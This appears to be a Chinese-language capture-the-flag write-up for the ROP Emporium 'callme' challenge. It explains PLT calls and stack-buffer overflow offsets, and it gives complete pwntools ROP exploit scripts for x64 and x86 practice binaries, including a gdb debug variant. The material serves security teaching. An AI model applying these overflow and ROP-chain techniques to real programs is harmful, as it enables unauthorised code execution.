callme
via：https://ropemporium.com/challenge/callme.html
Reliably make consecutive calls to imported functions. Use some new techniques and learn about the Procedure Linkage Table. Click below to download the binary.
Failure is not an option
How do you make consecutive calls to a function from your ROP chain that won’t crash afterwards? If you keep using the call instructions already present in the binary your chains will eventually fail, especially when exploiting 32 bit binaries. Consider why this might be the case.
Procedure Linkage
The Procedure Linkage Table (PLT) is used to resolve function addresses in imported libraries at runtime, it’s worth reading up about it. See appendix A in the beginner’s guide for a brief explanation of how the PLT is used in lazy binding. Even better, go ahead and step through the lazy linking process in a debugger, it’s important you understand what resides at the addresses reported to you by commands like ·rabin2 -i <binary> and rabin2 -R <binary>
Correct order
Important: To dispose of the need for any RE we’ll tell you the following: You must call callme_one(), callme_two() and callme_three() in that order, each with the arguments 1,2,3 e.g. callme_one(1,2,3) to print the flag. The solution here is simple enough, use your knowledge about what resides in the PLT to call the callme_ functions in the above order and with the correct arguments. Don’t get distracted by the incorrect calls to these functions made in the binary, they’re there to ensure these functions get linked. You can also ignore the .dat files and the encrypted flag in this challenge, they’re there to ensure the functions must be called in the correct order.
x64
看到上面的要求
You must call callme_one(), callme_two() and callme_three() in that order, each with the arguments 1,2,3 e.g. callme_one(1,2,3) to print the flag
需要依次调用 callme_one callme_two callme_three
并且这三个函数调用时需要传入 1 2 3 当参数

其实这个题目可以是一道逆向题，我看了一下 libcallme.so 里面 callme_one callme_two callme_three 函数的定义，其实就是对 flag 的解密而已（异或），但是这是道 pwn 题。正常情况下我们是拿不到 libcallme.so 的，所以我们还是要按照题目要求依次调用上面那三个函数

漏洞点：pwnme 里面的 fgets
00401a3c 48 8b 15 MOV RDX,qword ptr [stdin]
4d 06 20 00
00401a43 48 8d 45 e0 LEA RAX=>local_28,[RBP + -0x20]
00401a47 be 00 01 MOV ESI,0x100
00 00
00401a4c 48 89 c7 MOV RDI,RAX
00401a4f e8 ec fd CALL fgets
buffer 位于 [RBP + -0x20]
填充 0x20 + 0x8 = 0x28
因为是 x64 需要 gadget 来构造 ROP 链
调用 callme_ 函数需要 3 个参数，也就是说需要 pop rdi pop rsi pop rdx
直接用 ROPgadget

有一条是
0x0000000000401ab0 : pop rdi ; pop rsi ; pop rdx ; ret
直接有 pop rdi pop rsi pop rdx 免去了一个一个 pop reg; ret 拼接
地址：0x0000000000401ab0
现在需要拿 callme_one callme_two callme_three 的 plt
用 pwntools 的 ELF 类中的 plt 方法（或者说函数，其实一样）这个方法返回的是一个 dict

我们只需要 callme_one callme_two callme_three 的 plt ，操作如下

写 payload
from pwn import *
callme_process = process("./callme")
callme = ELF("./callme")
callme_one_plt = callme.plt["callme_one"]
callme_two_plt = callme.plt["callme_two"]
callme_three_plt = callme.plt["callme_three"]
pop_rdi_rsi_rdx_ret = 0x0000000000401ab0
exp = "A" * 0x28
exp += p64(pop_rdi_rsi_rdx_ret)
exp += p64(1)
exp += p64(2)
exp += p64(3)
exp += p64(callme_one_plt)
exp += p64(pop_rdi_rsi_rdx_ret) // 覆盖 callme_one 的返回地址
exp += p64(1)
exp += p64(2)
exp += p64(3)
exp += p64(callme_two_plt)
exp += p64(pop_rdi_rsi_rdx_ret) // 覆盖 callme_two 的返回地址
exp += p64(1)
exp += p64(2)
exp += p64(3)
exp += p64(callme_three_plt)
print(exp)
callme_process.sendline(exp)
print(callme_process.recvall())
callme_process.interactive()
在这里我解释一下为什么
exp += p64(pop_rdi_rsi_rdx_ret)
exp += p64(1)
exp += p64(2)
exp += p64(3)
exp += p64(callme_one_plt)
exp += p64(pop_rdi_rsi_rdx_ret) // callme_one 的返回地址
把返回地址覆盖成 pop_rdi_rsi_rdx_ret 调用 callme_one 后紧接着又覆盖上 pop_rdi_rsi_rdx_ret
x64 下调用函数布局这样的：
把参数压进寄存器
call 函数
被 call 函数的返回地址
所以其实是在覆盖 callme_one 的返回地址为调用 callme_two 做准备

pwn！
x86
我就不复述上面的重复步骤了
这是一篇 phrack 上面发布的关于 x86 rop 的文章
via：http://phrack.org/issues/58/4.html#article

080487f8 68 00 01 PUSH 0x100
00 00
080487fd 8d 45 d8 LEA EAX=>local_2c,[EBP + -0x28]
08048800 50 PUSH EAX
08048801 e8 9a fd CALL fgets
buffer 位于：[EBP + -0x28]
填充：0x28 + 0x4
一样拿 callme_one callme_two callme_three 的 plt
from pwm import *
callme32 = ELF("callme32")
callme_one_plt = callme32.plt["callme_one"]
callme_two_plt = callme32.plt["callme_two"]
callme_three_plt = callme32.plt["callme_three"]
因为 x86 是通过在栈去传参的，所以，这里不需要 gadget ，只需要把参数放到栈上就好了
完整的 exp：
from pwn import *
context.terminal = ["tmux", "split-window", "-h"]
callme32_process = process("callme32")
callme32 = ELF("callme32")
callme_one_plt = callme32.plt["callme_one"]
callme_two_plt = callme32.plt["callme_two"]
callme_three_plt = callme32.plt["callme_three"]
pwnme = callme32.symbols["pwnme"]
exp = "A" * (0x28 + 0x4)
exp += p32(callme_one_plt)
exp += p32(pwnme)
exp += p32(1)
exp += p32(2)
exp += p32(3)
callme32_process.sendline(exp)
exp0 = "A" * 44
exp0 += p32(callme_two_plt)
exp0 += p32(pwnme)
exp0 += p32(1)
exp0 += p32(2)
exp0 += p32(3)
callme32_process.sendline(exp0)
exp1 = "A" * 44
exp1 += p32(callme_three_plt)
exp1 += p32(0xdead)
exp1 += p32(1)
exp1 += p32(2)
exp1 += p32(3)
callme32_process.sendline(exp1)
print(callme32_process.recvall())
callme32_process.interactive()
其实这里程序的执行流程是：
pwnme(overflow) -> callme_one -> pwnme(overflow) -> callme_two -> pwnme(overflow) -> callme_three -> 0xdeadbeef
我是使用了多次调用 pwnme ，每次调用都溢出那个 buffer 然后把返回地址覆盖成我想要调用的函数
这是我用来完成下面步骤的 debug 版的 exp，其实就是用了 gdb attach 上去（gdb.attach(callme32_pid)），我用的是 docker 没有图形，我只能用 tmux 分屏（context.terminal = ["tmux", "split-window", "-h"]）
from pwn import *
context.terminal = ["tmux", "split-window", "-h"]
callme32_process = process("callme32")
callme32_pid = pidof(callme32_process)[0]
callme32 = ELF("callme32")
callme_one_plt = callme32.plt["callme_one"]
callme_two_plt = callme32.plt["callme_two"]
callme_three_plt = callme32.plt["callme_three"]
pwnme = callme32.symbols["pwnme"]
gdb.attach(callme32_pid)
exp = "A" * (0x28 + 0x4)
exp += p32(callme_one_plt)
exp += p32(pwnme)
exp += p32(1)
exp += p32(2)
exp += p32(3)
callme32_process.sendline(exp)
exp0 = "A" * 44
exp0 += p32(callme_two_plt)
exp0 += p32(pwnme)
exp0 += p32(1)
exp0 += p32(2)
exp0 += p32(3)
callme32_process.sendline(exp0)
exp1 = "A" * 44
exp1 += p32(callme_three_plt)
exp1 += p32(0x41414141)
exp1 += p32(1)
exp1 += p32(2)
exp1 += p32(3)
callme32_process.sendline(exp1)
print(callme32_process.recvall())
callme32_process.interactive()
可以看到（全程请看 DISASM 窗口）：
# 第一次溢出
exp = "A" * (0x28 + 0x4)
exp += p32(callme_one_plt)
exp += p32(pwnme)
# 我把 callme_one 的返回地址覆盖成 pwnme 在调用完 callme_one 又会跳回 pwnme，进行第二次溢出

在 callme_one 准备 ret时：

在 pwnme 的 ret 下断点，继续运行
# 第二次溢出
exp0 = "A" * 44
exp0 += p32(callme_two_plt)
exp0 += p32(pwnme)
# 我把 callme_two 的返回地址覆盖成 pwnme 在调用完 callme_two 又会跳回 pwnme，进行第三次溢出

可以看到第二次溢出运行了 callme_two
在 callme_two 的 ret 下断点

看到吗，又跳回 pwnme
#第三次溢出
exp1 = "A" * 44
exp1 += p32(callme_three_plt)
exp1 += p32(0xdead)
# 我把 callme_two 的返回地址覆盖成 0xdead 在调用完 callme_three 我们的目的就达到了，无所谓程序会执行到哪里

第三次溢出，调用 callme_three

pwn！
其实在进行第二次调用 pwnme 时要注意 栈对齐，填充的长度不一定是跟第一次溢出是一样
这是x86_64 的栈对齐：https://www.cnblogs.com/tcctw/p/11333743.html
照猫画虎吧，懒得找 x86 的，或者自己搜